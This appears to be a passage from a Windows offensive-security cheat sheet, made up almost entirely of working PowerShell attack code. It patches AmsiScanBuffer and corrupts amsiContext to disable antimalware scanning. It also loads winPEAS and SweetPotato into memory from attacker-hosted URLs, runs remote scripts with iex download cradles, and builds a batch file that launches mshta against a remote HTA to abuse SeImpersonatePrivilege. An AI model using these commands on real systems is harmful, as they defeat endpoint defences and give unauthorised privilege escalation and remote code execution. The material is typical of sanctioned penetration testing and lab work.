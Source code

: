 ```

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

```
## Common Binary in memory
https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master 
## WinPeas without touching disk
```
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/winPEASany_ofs.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[winPEAS.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```

If you don’t want to be bored to compile .net app or modify them with public class and method and no exit.environment you can also use PowerSharpPack and get everything done for you (thanks again to @ShitSecure).
```
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')
PowerSharpPack -winPEAS
```

### Exploit SeImpersonatePrivilege
```
echo "@echo off" > runme.bat
echo "start /b C:\Windows\system32\mshta.exe http://10.10.14.194:8000/hello.hta" >> runme.bat
echo "exit /b" >> runme.bat

mkdir c:\temp
cd c:\temp
(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/runme.bat','C:\Windows\Temp\runme.bat')
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/SweetPotato.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[SweetPotato.Program]::Main(@('-p=C:\Windows\Temp\runme.bat'));[Console]::SetOut($out);$sWriter.ToString()

or

	

$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
iex(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpBinaries/Invoke-BadPotato.ps1')
Invoke-BadPotato -Command "c:\temp\runme.bat"

```
